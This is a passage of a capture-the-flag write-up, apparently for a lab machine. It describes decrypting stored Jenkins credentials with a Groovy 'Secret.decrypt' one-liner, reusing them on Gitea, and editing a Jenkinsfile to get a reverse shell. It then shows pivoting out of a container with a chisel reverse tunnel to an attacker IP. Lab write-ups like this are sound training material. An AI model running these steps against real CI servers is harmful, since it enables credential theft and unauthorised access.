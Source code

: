 jobs/.../config.xml - {AQAA...} encrypted credentials for buildadm (Gitea user)
users/admin/config.xml - bcrypt hash of Jenkins admin password
secrets/master.key + secrets/hudson.util.Secret - Jenkins encryption keys

Jenkins executes any Groovy scripts placed in $JENKINS_HOME/init.groovy.d/ before startup.
I created a Groovy script to decrypt the {AQAA...} value

```bash
`println hudson.util.Secret.decrypt("{AQAA...}")`
```
Then ran Jenkins in local mode:
```bash
`JENKINS_HOME="$PWD" java -jar jenkins.war --httpPort=-1`
```
The script printed the plaintext Gitea password.

These creds worked for buildadm on the Gitea, giving repo access.
<img width="2139" height="339" alt="2025-08-08 123734" src="https://github.com/user-attachments/assets/e083642d-8426-4210-a33c-38f354ee2197" />

After logging in, I edited the Jenkinsfile in the repo to get a reverse shell.
<img width="2109" height="795" alt="2025-08-08 125342" src="https://github.com/user-attachments/assets/02b5064c-d610-428b-b026-23bb8ad48549" />

Once the build executed, I got a shell inside a container. Inside /root I grabbed the user flag.
<img width="1151" height="237" alt="2025-08-08 125716" src="https://github.com/user-attachments/assets/a2c230f6-16bd-4757-88ba-746d39689cdc" />

# Privilege Escalation
In /root there’s a .rhosts file:
```bash
root@5ac6c7d6fb8e:~# cat .rhosts 
admin.build.vl +
intern.build.vl +
```
This means rlogin from those hostnames as root works without a password.

From /etc/hosts I found the containers internal network info. Running Nmap from inside revealed another host (172.18.0.5) with port 8081 open.
```bash
root@5ac6c7d6fb8e:~# cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.3      5ac6c7d6fb8e
root@5ac6c7d6fb8e:~# 

```
### Pivoting with chisel
To access it, I transferred chisel to the container and set up a reverse port forward:

```bash

root@5ac6c7d6fb8e:~# ./chisel client 10.10.14.60:8000 R:127.0.0.1:8081:172.18.>
2025/08/09 12:04:40 client: Connecting to ws://10.10.14.60:8000
2025/08/09 12:04:41 client: Connected (Latency 54.449317ms)

```
Port 8081 required credentials.
<img width="945" height="560" alt="2025-08-08 140330" src="https://github.com/user-attachments/assets/3362fb02-8c17-49e6-affe-2f4b722d224a" />
